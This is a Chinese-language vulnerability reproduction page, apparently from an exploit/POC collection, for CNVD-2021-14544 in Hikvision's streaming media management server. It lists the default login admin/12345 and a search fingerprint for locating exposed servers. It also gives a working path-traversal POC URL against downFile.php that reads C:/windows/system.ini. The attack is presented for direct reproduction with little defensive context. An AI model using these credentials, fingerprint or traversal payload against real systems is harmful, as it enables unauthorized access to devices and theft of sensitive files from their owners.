 # HIKVISION 流媒体管理服务器 后台任意文件读取漏洞 CNVD-2021-14544

## 漏洞描述

杭州海康威视系统技术有限公司流媒体管理服务器存在弱口令漏洞，攻击者可利用该漏洞登录后台通过文件遍历漏洞获取敏感信息

## 漏洞影响

<a-checkbox checked>HIKVISION 流媒体管理服务器</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="流媒体管理服务器"</a-checkbox></br>

## 漏洞复现

登录页面如下， 默认账号密码为 **admin/12345**



![img](../../../.vuepress/public/img/hiv-5.png)



POC如下，访问如下Url下载 system.ini文件



```plain
http://xxx.xxx.xxx.xxx/systemLog/downFile.php?fileName=../../../../../../../../../../../../../../../windows/system.ini
```



![img](../../../.vuepress/public/img/hiv-6.png)



成功读取 **C:/windows/system.ini**